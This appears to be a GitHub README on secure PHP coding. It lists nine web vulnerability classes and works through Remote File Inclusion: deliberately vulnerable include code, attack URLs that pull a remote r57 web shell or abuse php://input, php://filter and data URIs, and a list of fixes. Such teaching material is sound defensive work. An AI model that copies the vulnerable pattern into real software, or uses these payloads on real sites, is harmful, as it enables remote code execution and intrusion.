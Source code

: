 # Secure-PHP-Programming
#Secure PHP Coding

1. Remote File Inclusion (RFI)
2. Local File Inclusion (LFI)
3. Local File Disclosure/Download
4. Remote File Upload
5. Remote Command Execution
6. Remote Code Execution (RCE)
7. Authentication Bypass/Insecure Permissions
8. Cross-Site Scripting(XSS)
9. Cross Site Request Forgery(CSRF)

##1) Remote File Inclusion
####Affected PHP Functions
- require
- require_once
- include
- include_once

####Vulnerable Codes

test.php
```php
<?php
$theme = $_GET['theme'];
include $theme;
?>
```
test1.php
```php
<?php
$theme = $_GET['theme'];
include $theme.'.php';
?>
```
####Attack
- Including Remote Code: 
 	- http://localhost/rfi/index.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt
	- http://localhost/rfi/index1.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt?
- Using PHP stream php://input:
	- http://localhost/rfi/index.php?theme=php://input 
- Using PHP stream php://filter:
	- http://localhost/rfi/index.php?theme=php://filter/convert.base64-encode/resource=index.php
- Using data URIs:
	- http://localhost/rfi/index.php?theme=data://text/plain;base64,SSBsb3ZlIFBIUAo=
	
####How to fix
- set `allow_url_include = Off` in php.ini
- Validate with array of allowed files
- Don't allow special chars in variables
- filter the slash "/"
- filter "http" , "https" , "ftp" and "smb"
